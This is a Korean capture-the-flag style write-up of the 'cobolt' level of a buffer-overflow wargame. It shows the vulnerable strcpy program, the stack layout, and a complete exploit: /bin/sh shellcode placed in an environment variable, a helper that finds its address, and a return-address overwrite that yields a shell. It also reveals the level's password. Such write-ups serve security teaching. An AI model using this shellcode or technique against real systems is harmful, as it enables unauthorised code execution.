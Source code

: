 ============================================================================================================
[redhat-lob] (2) cobolt
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="dummy * 20 + envp address"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="envp address"];
        e [shape=box, label="dummy * 100 + shellcode"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte)
    SFP     (4byte) 
    RET     (4byte)   
    argc    (4byte)   
    argv    (4byte)   
    envp    (4byte)   <
    ---------------
    HIGH    
    ===============

|

Buffer Overflow
============================================================================================================


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./cobolt `python -c "print 'a'*16"`

    aaaaaaaaaaaaaaaa

    $ ./cobolt `python -c "print 'a'*20"`

    aaaaaaaaaaaaaaaaaaaa

    Segmentation fault

|

exploit
============================================================================================================

환경 변수 상에 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 한다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:5: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbfffff01

|

RET를 환경 변수 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte)  <- dummy
    SFP     (4byte)   <- dummy
    RET     (4byte)   <- envp address
    envp    (4byte)   <- nopsled shellcode
    ---------------
    HIGH    
    ===============

|

오버플로우시 RET 주소를 환경 변수 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다.

.. code-block:: console

    $ ./cobolt `python -c 'print "\x90"*20+"\x01\xff\xff\xbf"'`

    bash$ whoami
    cobolt
    bash$ my-pass
    euid = 502
    hacking exposed



